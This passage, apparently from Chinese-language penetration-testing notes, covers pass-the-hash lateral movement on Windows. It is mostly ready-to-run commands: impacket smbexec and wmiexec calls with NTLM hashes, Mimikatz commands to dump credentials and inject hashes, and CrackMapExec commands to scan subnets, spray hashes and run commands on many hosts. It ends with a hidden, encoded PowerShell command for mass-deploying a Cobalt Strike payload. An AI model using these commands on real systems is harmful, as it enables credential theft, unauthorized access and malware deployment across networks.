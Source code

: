 这种方式方便我们直接通过代理在自己本机执行(py测试2003,但exe可以成功)

#### smbexec.py
https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py
```
python smbexec.py ./:@192.168.52.136
```

#### wmiexec.py-PTH

https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py

```
python wmiexec.py -hashes 624aac413795cdc1a5c7b1e00f780017:852a844adfce18f66009b4f14e0a98de administrator@10.73.147.29
```

#### MiMiKatz-PTH

这个需要本地管理员权限(由Mimikatz的实现机制决定的)

```
privilege::debug
sekurlsa::logonpasswords
//抓取本机hash

privilege::debug
sekurlsa::pth /user:administrator /domain:workgroup /ntlm:852a844adfce18f66009b4f14e0a98de
//将获取的Hash添加进lsass中
```

会弹出一个交互式的终端,这个终端以及伪造为我们指定的hash和用户，访问远程主机或服务，就不用提供明文密码了。
我们可以通过copy文件，然后执行计划任务去拿到shell(这个思路有自动化实现的工具)。

####  pth批量横向移动
CrackMapExec：https://github.com/byt3bl33d3r/CrackMapExec/

CME集成了wmiexec、atexe、smbexec的方式,集成了smb扫描,口令爆破等功能,非常适合拿来快速移动。

用cme来进行网段的smb扫描确定目标系统和smb服务
```
cme smb 192.168.0.0/24 -t 255
```

批量传递hash:
```
cme smb 10.73.147.90 10.73.147.88 -u administrator -H 852a844adfce18f66009b4f14e0a98de
```

批量执行命令:
```
cme smb 10.73.147.90 10.73.147.88 -u administrator -H 852a844adfce18f66009b4f14e0a98de  -x "whoami"
```

或者执行powershell,我们可以通过CS的powershell command然后粘贴生成的payload.txt中的内容直接-x执行即可批量上马。
```
cme smb 10.211.55.51  10.211.55.52 -u administrator  -H 852a844adfce18f66009b4f14e0a98de -x "powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0..."
```
